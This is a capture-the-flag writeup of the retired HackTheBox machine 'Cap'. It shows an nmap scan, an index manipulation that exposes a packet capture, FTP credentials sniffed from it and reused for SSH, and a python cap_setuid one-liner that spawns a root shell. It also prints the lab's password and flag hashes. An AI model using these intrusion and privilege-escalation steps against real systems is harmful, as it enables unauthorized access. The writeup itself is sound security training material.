 Title:HTB: Cap
Date: MM-07-2021 10:25
category:security
tags:security, boot2root, HTB, capabilities
meta:security, boot2root, HTB, capabilities

<img class="align-left" src="/media/2021.xx/cap_card.png" alt="cap Card" width="262">

This article is a writeup about a retired HacktheBox machine:
[Cap](https://www.hackthebox.eu/home/machines/profile/351) published on
June 5, 2021 by
[InfoSecJack](https://www.hackthebox.eu/home/users/profile/52045).
This box is rated as easy box the user part implies to know a bit about array
indexes and wireshark. The root part is quit easy and implies a binary
capabilities.

<!-- PELICAN_END_SUMMARY -->

# User

## Recon

Let us start as always by a `nmap` scan. Only port 21 (FTP), 22 (SSH) and 80 with a HTTP
service are open.

    :::text
    # Nmap 7.91 scan initiated Sat Jun 19 08:05:17 2021 as: nmap -p- -sSV -A -oN notes.md 10.129.162.82
    Nmap scan report for 10.129.162.82
    Host is up (0.013s latency).
    Not shown: 65532 closed ports
    PORT   STATE SERVICE VERSION
    21/tcp open  ftp     vsftpd 3.0.3
    22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
    | ssh-hostkey: 
    |   3072 fa:80:a9:b2:ca:3b:88:69:a4:28:9e:39:0d:27:d5:75 (RSA)
    |   256 96:d8:f8:e3:e8:f7:71:36:c5:49:d5:9d:b6:a4:c9:0c (ECDSA)
    |_  256 3f:d0:ff:91:eb:3b:f6:e1:9f:2e:8d:de:b3:de:b2:18 (ED25519)
    80/tcp open  http    gunicorn
    <SNIP>


## FTP

No anonymous connection is available on it.

## Web

This is a server monitoring website. We can access a few technical information
as the result of the `ip a` command.

![Result of ip a command](/media/2021.xx/cap_01.png)

We also have access to a "capture and analyze packets" tool which make me think
about a tcpdump or wireshark RCE exploit.

![Packet capture and analyzer](/media/2021.xx/cap_02.png)

But this was quit simpler. Notice the "index" in the picture above: 1. Or in
programming language, most table start with the index 0. We just change the URL
to `data/0` and open the pcap with wireshark.

We can see a few FTP frames. The FTP traffic is in clear text, we use the
"follow TCP stream" option from wireshark and get the FTP packets containing a
username and a password.

    :::text
    220 (vsFTPd 3.0.3)
    USER nathan
    331 Please specify the password.
    PASS Buck3tH4TF0RM3!
    230 Login successful.
    SYST
    215 UNIX Type: L8
    PORT 192,168,196,1,212,140
    <SNIP>

We can connect using FTP and get access to Nathan's files but the user is using the same password for his SSH access :S

    :::text
    ┌──(kali㉿kali)-[~]
    └─$ ssh nathan@10.129.162.82
    nathan@10.129.162.82's password: 
    <SNIP>
    nathan@cap:~$ cat user.txt
    881dbf629f65f88eca6c0be9dab5db20


# Root

We quickly check our `sudo` privileges but we do not have any.

The name of the box might be a hint here. We can run a Linux privilege
escalation tool as
[LinPEAS](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS)
or just run the appropriate command available on
[Linux privilege escalation methodologies](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Linux%20-%20Privilege%20Escalation.md#capabilities).

We quickly found out that `/usr/bin/python3.8` has the `setuid` capabilities
which allow to [make arbitrary manipulations of process UIDs](https://man7.org/linux/man-pages/man7/capabilities.7.html)


    :::text
    nathan@cap:/$ getcap -r / 2> /dev/null
    /usr/bin/python3.8 = cap_setuid,cap_net_bind_service+eip
    /usr/bin/ping = cap_net_raw+ep
    /usr/bin/traceroute6.iputils = cap_net_raw+ep
    /usr/bin/mtr-packet = cap_net_raw+ep
    /usr/lib/x86_64-linux-gnu/gstreamer1.0/gstreamer-1.0/gst-ptp-helper = cap_net_bind_service,cap_net_admin+ep

We just have to run a simple python command either via the python console or in
a oneliner to pop a root shell and grab the flag.

    :::text
    nathan@cap:/$ /usr/bin/python3.8 -c 'import os; os.setuid(0); os.system("/bin/sh")'
    # id
    uid=0(root) gid=1001(nathan) groups=1001(nathan)
    # cat /root/root.txt
    96f9681e3e9831523150b8a56f288a90

# Wrapping up

This was an easy box! I struggle an bit on the "Array index" as I was in the
tcpdump/wireshark rce rabbit hole. Nonetheless a great box for every beginners.

